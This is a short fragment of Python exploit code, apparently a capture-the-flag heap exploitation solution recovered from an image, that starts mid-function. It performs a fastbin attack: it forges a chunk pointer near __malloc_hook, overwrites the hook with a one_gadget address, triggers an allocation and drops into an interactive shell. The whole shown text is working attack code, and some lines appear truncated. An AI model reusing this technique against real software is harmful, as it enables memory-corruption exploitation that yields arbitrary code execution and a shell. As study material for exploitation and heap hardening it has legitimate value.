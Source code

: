     	malloc_hook = libc
    	fake_fd = malloc_hook_ptr - 0x28 + 5
    	new_string(0x68,p64(fake_fd))
    	new_string(0x68,'A')
    	new_string(0x68,'A')
    	payload = 'A'*3 + p64(one_gadget)*3
    	new_string(0x68,payload)
    
    	sla('choice: ','1')
    	sla('length: ',str(1))
    
    	p.interactive()
    
    hack()